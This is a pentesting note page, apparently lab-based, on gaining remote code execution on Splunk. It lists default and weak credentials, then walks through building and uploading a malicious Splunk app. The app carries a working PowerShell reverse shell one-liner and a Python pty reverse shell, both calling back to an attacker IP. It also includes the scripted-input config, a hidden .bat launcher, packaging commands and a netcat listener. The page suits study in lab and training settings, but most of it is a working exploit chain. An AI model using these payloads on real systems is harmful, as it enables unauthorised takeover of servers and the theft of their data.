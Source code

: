 # Splunk Attacks

* \
  Splunk web server runs by default on port 8000
  * works on https
* On older versions of Splunk, the default credentials are `admin:changeme`
  * If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Enumeration

* The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication - It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. - This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment - Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.&#x20;

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Splunk has multiple ways of running code, such as
  * server-side Django applications
  * REST endpoints
  * scripted inputs
  * alerting scripts
* A common method of gaining remote code execution on a Splunk server is through the use of a scripted input

### Attacking Splunk

* We can use [this](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us.
  * The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1)
* The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file
* &#x20;Our reverse shell will be a PowerShell one-liner.

```powershell-session
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions.
  * Here we set the app as enabled and tell Splunk to run the script every 10 seconds.
  * The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 
```

```shell-session
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

* We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

* Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

* The next step is to choose `Install app from file` and upload the application.

```
https://10.129.201.50:8000/en-US/manager/search/apps/local
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
 sudo nc -lnvp 443
```

* On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

```
https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.
* If we were dealing with a **Linux host**, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
